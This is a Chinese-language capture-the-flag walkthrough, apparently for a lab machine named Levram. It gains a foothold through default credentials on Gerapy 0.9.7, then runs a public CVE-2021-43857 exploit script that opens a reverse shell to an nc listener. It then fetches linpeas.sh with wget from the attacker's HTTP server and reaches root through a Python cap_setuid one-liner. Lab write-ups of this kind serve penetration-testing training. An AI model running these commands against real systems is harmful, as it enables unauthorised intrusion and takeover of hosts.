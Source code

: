 ```yaml
---
description: Easy - Linux / Gerapy 0.9.7 / CVE-2021-43857 /
---
```


# ✔️ Levram

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和8000

```bash
nmap -sC -sV -oA levram 192.168.124.24 --open
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

* 检查8000端口上的内容，尝试弱口令登录成功： **admin : admin**

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

* 并发现了当前正在运行的程序及其版本号：**Gerapy v0.9.7**

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

* 枚举8000端口上的隐藏文件/目录，找到了/admin目录：

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

* 在8000端口上的/robots.txt里的/admin目录对应上：

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

* 查看发现是Django Administration登录页面，使用弱口令登录成功：**admin:admin**

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

* 依次查看并无任何有用的收获：

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据之前已获取到的正在运行的程序Gerapy v0.9.7，查找到了公开的可利用漏洞：

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了可以直接利用的脚本，无需修改直接执行：

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 执行cve-2021-43857.py：

```bash
python3 cve-2021-43857.py -u http://192.168.193.24:8000 -U admin -P admin -r 192.168.45.244 -p 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

* 获取到local.txt：

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传linpeas.sh进行信息收集：

```bash
# Kali：
python3 -m http.server
# target：
wget http://192.168.45.244:8000/linpeas.sh
```

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

* 执行linpeas.sh：

```bash
chmod 777 linpeas.sh
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 从linpeas.sh的输出结果中得知Files with capabilities这一项的 **/usr/bin/python3.10 cap\_setuid=ep** 可被利用：

<figure><img src="../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

* 这是因为python 3.10作为可执行文件，被赋予了cap\_setuid的能力。在GTFOBins中找到了可利用的命令：

<figure><img src="../../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 先切换到/bin目录下，因为python在该目录下。然后执行以下命令即可提权到root权限：

```bash
cd /usr/bin
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

* 获取到proof.txt：

<figure><img src="../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>
